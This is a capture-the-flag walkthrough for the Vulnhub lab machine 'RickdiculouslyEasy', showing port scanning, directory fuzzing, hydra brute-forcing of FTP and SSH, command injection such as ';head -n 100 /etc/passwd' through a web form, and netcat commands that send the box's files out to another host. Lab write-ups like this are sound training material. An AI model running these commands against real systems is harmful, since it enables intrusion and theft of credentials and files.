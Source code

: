*2021-08-23*

*kimm3*

# Walkthrough: RickdiculouslyEasy
Platform: Vulnhub

Difficulty: Easy

- [Link](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/)

This is a funny themed box, consisting of several flags, with a possible score of 130 points. In the last heading of this document, there's a summary of flag points and where to find them.

## Setup
![dhcpd](assets/markdown-img-paste-20210824032436697.png)

![ll](assets/markdown-img-paste-20210824032456284.png)

## Scans and enumeration
```
export IP=192.168.10.2
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```
![nmap-init](assets/markdown-img-paste-20210824033312126.png)

## Intial flags

First flag at port 13337, nmap aggressive scan reveals it too us. If it didn't we could have used netcat to retrieve the text.

![nc13337](assets/markdown-img-paste-20210824033449801.png)

**Score: 10 points**

Lets start with the really easy stuff.

![ftp-flag](assets/markdown-img-paste-20210824033750873.png)

![ftp-flag-txt](assets/markdown-img-paste-20210824033818116.png)

The ftp service accepts anonymous logins, use the username anonymous and any password.

**Score: 20 points**

`nc $IP 60000`

![reverse-shell](assets/markdown-img-paste-20210824034122269.png)

**Score: 30 points**

![index-p80](assets/markdown-img-paste-20210824034401199.png)

Nothing at port 80 index.

![flag-9090](assets/markdown-img-paste-20210824034427873.png)

**Score: 40 points**

Also a login page, but no password field.

![ffuf-httpindex](assets/markdown-img-paste-20210824034910517.png)

![http-passwords](assets/markdown-img-paste-20210824034948406.png)

```
curl "http://192.168.10.2/passwords/FLAG.txt" > foundfiles/flagpasswords.txt
curl "http://192.168.10.2/passwords/passwords.html" > foundfiles/passwords.html
```
![flagfrompasswordstxt](assets/markdown-img-paste-20210824035137501.png)

![flagfrompasswordshtml](assets/markdown-img-paste-20210824035233126.png)

**Score: 50 points**

## Trying winter
**Bruteforcing with the password 'winter'**

We got a password of winter, no username. Let's start with morty or rick.

```
hydra $IP -L creds/users.txt -P creds/pass.txt ftp | tee scans/hydra-ftp-small.txt
hydra $IP -L creds/users.txt -P creds/pass.txt ssh | tee scans/hydra-ssh-small.txt
hydra $IP -L creds/users.txt -P creds/pass.txt -s 22222 ssh | tee scans/hydra-ssh22222-small.txt
```

![ftpnogo](assets/markdown-img-paste-20210824041613485.png)

![sshnotconnect](assets/markdown-img-paste-20210824041633269.png)

![ssh2ndnogo](assets/markdown-img-paste-20210824041645697.png)

SSH port 22 couldn't connect, and the others didn't work. I tried common username wordlists, and generating one with 'cupp.py' for 'morty smith'.

## Back to enumerating
Let's go back to enumerating. Let's do a broader search to see if missed something in the previous scan.

```
# Added slash to find more dirs.
ffuf -u "http://192.168.10.2/FUZZ/ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt -of -o scans/ffuf-index80-with-slash

# Extension search
extensions=$(cat sl/Discovery/Web-Content/web-extensions.txt | tr "\n" ",")

ffuf -u "http://192.168.10.2/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -e $extensions -of -o scans/ffuf-widesearch
```

There's a cgi-bin folder, but everything inside seems to be forbidden(403). A text file called 'robots.txt' is in the index folder.

![robotstxt](assets/markdown-img-paste-20210824052521855.png)

![rootshell](assets/markdown-img-paste-20210824052611452.png)

Too bad.

![tracertool](assets/markdown-img-paste-20210824052722269.png)

![tracert-test](assets/markdown-img-paste-20210824052750145.png)

Typing `; whoami` in the search box. As in running two commands on the same line, works.

![whoami](assets/markdown-img-paste-20210824053022354.png)

## Foothold
Typing `;head -n 100 /etc/passwd` we get the usernames. (`cat` prints out a cat in this box, lol).

![etcpasswd](assets/markdown-img-paste-20210824060720125.png)

We've tried the password winter with users 'RickSanchez' and 'Morty' earlier, but there's another user, 'Summer'.

![summer-success](assets/markdown-img-paste-20210824060838986.png)

With ftp, we get, the same file we can get with SSH:

![ftp-flag](assets/markdown-img-paste-20210824060925820.png)

![ssh-flag](assets/markdown-img-paste-20210824061053981.png)

**Score: 60 points**

We have read access in both Ricks and Mortys home folders.

![mortyhome](assets/markdown-img-paste-20210824061204462.png)

![rickhome](assets/markdown-img-paste-20210824061350683.png)

Let's get the files for offline investigation.

```
nc -w 3 192.168.10.1 1234 < RickSanchez/RICKS_SAFE/safe
nc -w 3 192.168.10.1 1234 < Morty/journal.txt.zip
nc -w 3 192.168.10.1 1234 < Morty/Safe_Password.jpg
```

![Safe_password](assets/markdown-img-paste-20210824075323512.png)

![journaltxt](assets/markdown-img-paste-20210824075445869.png)

A flag and a password.

**Score: 80 points**

![runsafe](assets/markdown-img-paste-20210824075717627.png)

Running with password from journal.txt.

![runsafepw](assets/markdown-img-paste-20210824075748888.png)

**Score: 100 points**

The band name is 'Flesh Curtains'.

![band-name](assets/markdown-img-paste-20210824080145220.png)

```
mp64 ?u?dflesh -o flesh.txt
mp64 ?u?dcurtains -o curtains.txt
cat flesh.txt curtains.txt fleshcurtains.txt
hydra $IP -f -l RickSanchez -P creds/fleshcurtains.txt -f ftp | tee scans/hydra-rickftp.txt

# With leading cap letters
mp64 ?u?dFlesh -o Flesh.txt
mp64 ?u?dCurtains -o Curtains.txt
cat Flesh.txt Curtains.txt FleshCurtains.txt
hydra $IP -f -l RickSanchez -P creds/FleshCurtains.txt -f ftp | tee scans/hydra-rickftp-capital.txt
```

![ftpricksuccess](assets/markdown-img-paste-20210824081637302.png)

And from here it's pretty straight forward.

![sshandroot](assets/markdown-img-paste-20210824081844746.png)

## Summary of flags
| Points | Service/location |
| - | - |
| 10 | Port 13337 |
| 10 | FTP service, anonymous |
| 10 | half baked reverse shell, port 60000 |
| 10 | http,port 9090 |
| 10 | http, passwords folder |
| 10 | Summer home folder |
| 20 | journal.txt.zip |
| 20 | safe |
| 30 | root folder |
